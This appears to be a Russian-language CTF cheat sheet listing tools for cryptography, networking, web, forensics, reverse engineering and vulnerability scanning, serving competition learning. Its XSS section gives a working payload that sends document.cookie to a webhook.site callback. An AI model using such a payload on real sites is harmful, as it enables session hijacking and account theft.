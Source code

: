 ###### РЕКОМЕНДУЮ СТАВИТЬ КАЛИ ЛИНУКС И ЗАРАНЕЕ СТАВИТЬ ВСЁ ИЗ ВАШЕЙ КАТЕГОРИИ

# Cryptography:
- [dcode (france)](https://www.dcode.fr/rot-13-cipher)
  - расшифровка всего
  - вбиваете в поиск шифр и оно откроет решалку данного шифра
  - умеет решать даже судоку)
- [crack station](https://crackstation.net/)
  - расшифровывает некоторые хеши
  - богатая база хешей(радужная таблица) 15 gb
- [hashes.com](https://hashes.com/en/decrypt/hash)
  - расшифровывает некоторые хеши
- [Hash identifier](https://www.kali.org/tools/hash-identifier/)
  - Проверка какой это хеш
  - [Online 1](https://www.tunnelsup.com/hash-analyzer/)
  - [Online 2](https://hashes.com/en/tools/hash_identifier)

# Network:
- [wireshark](https://www.wireshark.org/#download)
  - в основном для загрузки pcap файлов содержащих кучу сетевых пакетов
  - внимательно читайте задание и ищите то что говорят
- [fiddler](https://www.telerik.com/download/fiddler-everywhere) 
  - подмена ответов запросов
- [burp suite](https://portswigger.net/burp/communitydownload)
  - подмена запросов и их отправка
  - и много других неизученых мною фич

# Web:
#### XSS:
- Использовать webhook.site для возвратного получения данных(callback)
- <img src=x onerror=this.src='https://webhook.site/fad40d81-20a3-4ce9-9399-0c9a9a6e6a24/'+document.cookie;>
- В примере выше я отправляю на вебхук куки в качестве открытия страницы с названием куки

#### Extensions:
- шпоры по sql и тд
  - Firefox: https://addons.mozilla.org/en/firefox/addon/hacktools/ 
  - Chrome: https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi
  - ![img.png](img.png)

#### VPN:
- [windscribe](https://windscribe.com)
  - делаете аккаунт, затем в настройках аккаунта вводиться промокод "ПИЗДЕЦ" дает 30 гб
- [cloudflare warp](https://1.1.1.1/)
  - впн от cloudflare 

# Forensics:
- Дампы памяти (.mem файлы) 
  - HxD Hex Editor 
    - редактор сырых данных
  - Volatility 
    - инструмент поиска и анализа инфы (ТОП) 
  - Binwalk 
    - поиск исполняемых и других файлов в картинке
  - Foremost 
    - поиск файлов из дампа
- Strings 
  - иногда полезно для получения строк из исполняемого файла
- Восстановление удаленных файлов
- Контейнеры 
  - Veracrypt, Truecrypt

# Assembler:


- [Ida Decompiler](https://out7.hex-rays.com/files/idafree77_windows.exe)
  - визуализация кода в виде графа
- [Assembler Reference](http://ref.x86asm.net/coder32.html#modrm_byte_16)
  - это сайт с инструкциями в ассемблере и их значениями в шестнадцатеричной системе счисления.
- [GDB Documentation](https://www.sourceware.org/gdb/documentation/)
  - мануал по gdb
- [Radare2](https://github.com/radareorg/radare2)
  - красивый gdb
- [BenEater](https://www.youtube.com/c/BenEater?app=desktop)
  - ютубер, объясняет ассемблер


# Vulnerability search:
- [snyk-cli](https://docs.snyk.io/snyk-cli)
  - имбище(must have)
  - Ищет уязвимости в определенной папке.
  - Для тех заданий, где предоставлены исходники.
  - Даже если цель задания в другом, сканируйте код всё равно, может быть обходной путь.
- [sqlmap](https://sqlmap.org/)
  - Взлом sql и поиск уязвимостей в sql базе
- [thc-hydra](https://www.kali.org/tools/hydra/)
  - Bruteforce универсальный - thc-hydra
  - [Github](https://github.com/vanhauser-thc/thc-hydra)
# Uncategorized:
- [awesome-ctf](https://project-awesome.org/apsdehal/awesome-ctf#solve)
  - multi tools
- [ctf-tools](https://github.com/zardus/ctf-tools)
  - multi tools
